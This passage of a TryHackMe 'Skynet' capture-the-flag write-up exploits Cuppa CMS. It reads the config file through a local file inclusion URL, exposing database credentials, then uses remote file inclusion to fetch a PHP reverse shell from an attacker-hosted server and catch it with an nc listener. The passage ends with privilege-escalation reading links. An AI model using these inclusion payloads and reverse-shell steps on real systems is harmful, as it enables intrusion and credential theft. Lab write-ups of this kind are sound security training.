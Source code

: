 
![img](/assets/images/tryhackme/skynet/12.png)

Looks like there's a LFI/RFI [exploit](https://www.exploit-db.com/exploits/25971) for **Cuppa CMS**


```
http://10.10.11.92/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=php://filter/convert.base64-encode/resource=../Configuration.php
```

Using the PoC to make sure it's vulnerable. Decoded:

```
<?php 
	class Configuration{
		public $host = "localhost";
		public $db = "cuppa";
		public $user = "root";
		public $password = "password123";
		public $table_prefix = "cu_";
		public $administrator_template = "default";
		public $list_limit = 25;
		public $token = "OBqIPqlFWf3X";
		public $allowed_extensions = "*.bmp; *.csv; *.doc; *.gif; *.ico; *.jpg; *.jpeg; *.odg; *.odp; *.ods; *.odt; *.pdf; *.png; *.ppt; *.swf; *.txt; *.xcf; *.xls; *.docx; *.xlsx";
		public $upload_default_path = "media/uploadsFiles";
		public $maximum_file_size = "5242880";
		public $secure_login = 0;
		public $secure_login_value = "";
		public $secure_login_redirect = "";
	} 
```

So we have LFI, let's try RFI

Using [php-reverse-shell.php]() from pentestmonkey. 

1. Edit the relevant values (IP and PORT)
2. Host it on a webserver - `python3 -m http.server` 
3. Start a listener - `nc -lvnp 4444`
4. Include your URL - `alerts/alertConfigField.php?urlConfig=http://IP:PORT/php-reverse-shell.php`
5. Send it!


![img](/assets/images/tryhackme/skynet/13.png)

---

### Privesc (tar checkpoints, Wildcard Injection, msfvenom)

- Reading/Resources
    - [Wildcard Injection](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)
    - [tar checkpoints](https://www.gnu.org/software/tar/manual/html_section/checkpoints.html)
    - [msfvenom](https://book.hacktricks.xyz/shells/shells/untitled)
    - [Cronjobs](https://linuxize.com/post/how-to-list-cron-jobs-in-linux/)
